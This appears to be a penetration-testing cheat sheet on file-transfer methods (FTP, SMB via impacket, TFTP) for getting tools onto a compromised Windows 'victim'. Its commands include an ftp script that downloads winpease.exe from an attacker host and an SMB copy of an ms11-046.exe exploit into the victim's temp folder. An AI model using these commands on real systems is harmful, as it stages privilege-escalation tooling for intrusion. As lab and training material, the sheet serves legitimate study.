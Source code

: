 ### FTP

On a linux host start a FTP:

```text
apt-get install python3-pyftpdlib  
python3 -m pyftpdlib -p 21 -w
```

Or use metasploit:

```text
msf > use auxiliary/server/ftp
```

Write to the file the commands on the victim:

```text
echo open 192.168.1.101 21> ftp.txt
echo USER N7WERA>> ftp.txt
echo NEWERA_PASSWORD>> ftp.txt
echo bin>> ftp.txt
echo GET winpease.exe>> ftp.txt
echo bye>> ftp.txt
```

run from cmd or powershell:

`ftp -s ftp.txt`

### SMB Server

Start smb server on Kali \(or any linux\) using impacket:

```text
root@kali# smbserver.py -smb2support {SHARE NAME} {FOLDER TO SHARE} -username newera -password newera
```

From the victim:

```text
C:\>net use \\10.11.0.XXX\smb /user:<username> <password>
The command completed successfully. 
```

Copy files: 

```text
C:\WINDOWS\Temp>copy \\10.11.0.XXX\smb\ms11-046.exe \windows\temp\a.exe 
copy \\10.11.0.XXX\smb\ms11-046.exe \windows\temp\a.exe 
        1 file(s) copied.
```

###  TFTP Server

Start TFTP on Kali:

```text
service atftpd start
atftpd --daemon --port 69 /tftp
```

